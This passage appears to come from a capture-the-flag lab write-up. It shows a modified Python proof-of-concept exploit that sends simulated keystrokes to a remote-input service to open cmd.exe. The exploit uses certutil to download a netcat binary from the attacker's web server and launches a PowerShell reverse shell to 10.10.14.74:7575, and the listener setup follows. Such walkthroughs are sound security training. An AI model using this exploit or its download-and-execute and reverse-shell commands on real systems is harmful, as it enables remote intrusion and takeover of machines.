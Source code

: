 We also modify the main function of the PoC specifying arguments to the downloaded executable, which will be netcat in this case.

```py
...[snip]...

def main():
        target.connect((rhost,port))
        sleep(0.5)
        print("[+] Connecting to target...")
        target.sendto(open,(rhost,port))        # Initialize Connection to Unified
        sleep(0.02)
        target.sendto(open_fin,(rhost,port))    # Finish Initializing Connection
        print("[+] Popping Start Menu")
        sleep(0.02)
        SendWin()
        sleep(0.3)
        print("[+] Opening CMD")
        SendString("cmd.exe", rhost)
        sleep(0.3)
        SendReturn()
        sleep(0.3)
        print("[+] *Super Fast Hacker Typing*")
        SendString("certutil.exe -f -urlcache http://" + lhost + "/" + payload + " C:\\Windows\\Temp\\" + payload, rhost) # Retrieve HTTP hosted payload
        sleep(0.3)
        print("[+] Downloading Payload")
        SendReturn()
        sleep(3)
        SendString("C:\\Windows\\Temp\\" + payload + " -e powershell 10.10.14.74 7575", rhost) # Execute Payload
        sleep(0.3)
        SendReturn()
        print("[+] Done! Check listener?")
        target.close()
		
...[snip]...
```

We serve the binary with a python web server again and start a listener on the port we specified.

```
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```
$ rlwrap nc -lnvp 7575
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575

```

Running the exploit with proxychains we get a hit on our web server and shortly afterwards a reverse shell back on our listener as clara.
